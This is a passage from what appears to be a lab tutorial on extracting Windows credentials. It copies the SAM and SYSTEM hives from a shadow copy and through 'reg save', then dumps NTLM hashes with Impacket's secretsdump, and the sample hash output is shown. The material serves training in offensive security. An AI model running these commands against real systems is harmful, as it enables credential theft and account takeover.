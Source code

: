 Now let's copy both files (sam and system) from the shadow copy volume we generated to the desktop as follows,

- **Copying the SAM and SYSTEM file from the Shadow Volume**

```shell-session
C:\Users\Administrator>copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\sam C:\users\Administrator\Desktop\sam
        1 file(s) copied.

C:\Users\Administrator>copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\system C:\users\Administrator\Desktop\system
        1 file(s) copied.
        
```

Now we have both required files, transfer them to the AttackBox with your favourite method (SCP should work). 

### Registry Hives

Another possible method for dumping the SAM database content is through the  Windows Registry. Windows registry also stores a copy of some of the SAM database contents to be used by Windows services. Luckily, we can save  the value of the Windows registry using the reg.exe tool. As previously  mentioned, we need two files to decrypt the SAM database's content.  Ensure you run the command prompt with Administrator privileges.

- **Save SAM and SYSTEM files from the registry**

```shell-session
C:\Users\Administrator\Desktop>reg save HKLM\sam C:\users\Administrator\Desktop\sam-reg
The operation completed successfully.

C:\Users\Administrator\Desktop>reg save HKLM\system C:\users\Administrator\Desktop\system-reg
The operation completed successfully.

C:\Users\Administrator\Desktop>
        
```

Let's this time decrypt it using one of the Impacket tools: `secretsdump.py`, which is already installed in the AttackBox. The Impacket SecretsDump  script extracts credentials from a system locally and remotely using  different techniques. 

Move both SAM and system files to the AttackBox and run the following command:

- **Decrypting SAM Database using Impacket SecretsDump Script Locally**

```shell-session
user@machine:~# python3.9 /opt/impacket/examples/secretsdump.py -sam /tmp/sam-reg -system /tmp/system-reg LOCAL
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] Target system bootKey: 0x36c8d26ec0df8b23ce63bcefa6e2d821
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:98d3a787a80d08385cea7fb4aa2a4261:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Cleaning up...
        
```
